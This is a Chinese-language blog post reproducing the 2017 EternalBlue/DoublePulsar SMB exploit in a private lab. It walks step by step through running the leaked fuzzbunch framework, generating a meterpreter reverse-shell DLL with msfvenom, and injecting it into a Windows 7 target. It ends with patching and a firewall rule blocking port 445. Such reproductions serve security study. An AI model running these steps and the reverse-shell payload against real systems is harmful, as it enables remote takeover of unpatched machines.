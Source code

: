 ```yaml
---
title: 复现 NSA Enternalblue SMB 漏洞
tags:
  - Enternalblue
  - Doublepulsar
  - SMB
  - Metasploit
categories: Vulnerability Analysis
keywords:
  - Enternalblue
  - Doublepulsar
  - SMB
  - Metasploit
translate_title: reproduce-nsa-enternalblue-smb-vulnerability
date: 2017-04-27 17:18:08
---
```


2017年4月14日，Shadow Brokers 再次公开了大量从 NSA 的方程式组织（Equation Group）处窃取的攻击工具，这些工具主要针对 Windows 系统的漏洞，其中还有几个 0 day。工具中的 fuzzbunch 是一个类似于 metasploit 的漏洞利用框架，fb.py 是 fuzzbunch 的入口文件，通过该文件可以调用各攻击模块。

泄露的工具可在 Github 下载：<https://github.com/misterch0c/shadowbroker>

# 0x01 影响范围
下图中列举了工具中相关模块所影响的服务和系统。
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020689_92526918-file_1493343199647_16966.jpg)

# 0x02 漏洞测试
下面使用工具中的 fuzzbunch 框架、Eternalblue 和 Doublepulsar 测试 Windows 下的 SMB 漏洞。首先通过 Eternalblue 利用 MS17-010 漏洞攻击 Windows 系统；然后在 Kali Linux 中用 Metasploit 生成一个能建立反向连接的 DLL，并在 Kali 中监听相应端口；最后使用 Doublepulsar 远程注入恶意 DLL 到目标系统，注入成功后 Kali 将与目标系统建立连接。

## 1. 测试环境
|     PC     |       IP        |  用途  |        备注        |
|:---------- |:--------------- | ------ | ------------------ |
| Win 7 x64  | 192.168.109.1   | 攻击机 | 需安装 [python2.6](https://www.python.org/ftp/python/2.6.6/python-2.6.6.msi)  和 [pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/pywin32-221.win32-py2.6.exe/download) |
| Win 7 x86  | 192.168.109.132 | 靶机   |开启 SMB 服务（445端口）   |
| Kali Linux | 192.168.109.128 | 控制端   | 生成payload 并控制回连会话|
首先需要把工具中的 windows 拷贝到攻击机 Win 7 x64中，然后在 windows 目录下新建一个 listeningposts 文件夹。

## 2. 测试流程
### 1）运行 fuzzbunch 框架
在 cmd 中进入 windows 目录，运行 `python fb.py`。输入目标系统 IP（Win 7 x86）和攻击机 IP（Win 7 x64），输入“no” 不重定向，接着输入项目名新建一个项目。     
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020691_95094523-file_1493344655277_8614.png)      

### 2）调用 Eternalblue 攻击系统
运行` use Eternalblue`，然后大多数步骤只需按回车使用默认参数即可。    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020676_54184530-file_1493344922256_adf5.png)   
下面需要选择 `1）FB` 模式。    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020679_61786740-file_1493345114952_f2f3.png)   
接着继续回车，直到成功运行攻击模块。    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020681_73280707-file_1493345362094_157db.png)    

### 3）Metasploit 生成恶意 DLL
在 Kali Linux 下使用 Metasploit 生成恶意 DLL,它将在目标系统中建立一个反向连接。这里生成的 DLL必须要与目标系统版本一致，下面生成 32 bit 的 DLL。
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.109.128 LPORT=6666 -f dll > test.dll
```
之后需要将生成的 test.dll 拷贝到攻击机的 D:\\下。

### 4）开启 msf 监听
在 Kali Linux 下，运行 msf，监听 6666 端口。    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020683_80220500-file_1493346556508_101d9.png)    

### 5）调用 Doublepulsar 注入 DLL
回到攻击机中，执行 `use Doublepulsar` ，回车使用默认参数直到选择 Function 为2 注入 DLL，然后指定 DLL 的路径。    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020674_11038492-file_1493347262266_5c5.png)   
注入成功后将返回如下信息。    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020680_68357990-file_1493347997057_2e1f.png)   
但是这里也会出现个问题，多次注入之后目标系统会出错重启。     
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020677_56721083-file_1493348716416_6f00.png)

### 6）建立连接
DLL 注入到目标系统之后，Kali Linux 将与目标系统建立连接。    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020685_82624178-file_1493348105266_34db.png)

# 0x03 防御措施
1. 尽快升级系统补丁     
2. 开启防火墙，并限制 445 端口     
通过以下命令添加防火墙规则：
```
netsh advfirewall firewall add rule name="445" protocol=TCP dir=in localport=445 action=block
```

----
References:   
[1] [NSA工具包之0day Eternalblue 复现笔记](http://blog.injectxx.com/2017/04/18/%E5%A4%8D%E7%8E%B0%E7%AC%94%E8%AE%B0%E3%80%82/)   
[2] [HOW TO EXPLOIT ETERNALBLUE & DOUBLEPULSAR TO GET AN
EMPIRE/METERPRETER SESSION ON WINDOWS 7/2008](https://www.exploit-db.com/docs/41896.pdf)   
[3] [NSA Fuzzbunch分析与利用案例](https://www.vulbox.com/knowledge/detail/?id=6)
